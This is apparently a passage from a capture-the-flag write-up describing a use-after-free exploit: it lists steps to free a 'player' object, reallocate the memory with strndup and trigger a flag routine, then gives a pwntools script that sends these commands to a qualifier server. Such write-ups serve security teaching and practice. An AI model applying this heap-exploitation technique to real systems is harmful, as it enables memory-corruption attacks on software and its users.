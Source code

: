 * First we allocate memory for player (to set the pointer of __player__).
* Then free __player__ so we have a *dangling pointer*.
* Allocate memory with the routine that uses *strndup* and fill the structure with 0.
* Call the function that drops the flag.


Here is a snippet to do that:
```python
from pwn import *

with remote("quals.shadow-league.org", 5001) as p:
    p.sendline("set t35h_ftw")      # Allocate player
    p.sendline("del")               # Free player
    p.sendline("title " + "A" * 23) # Re allocate memory on top of player
    p.sendline("login")             # Drop the flag.
    p.readuntil("SCE{")
    flag = "SCE{" + p.readline()
    
log.info("Found the flag: {}".format(flag))
```

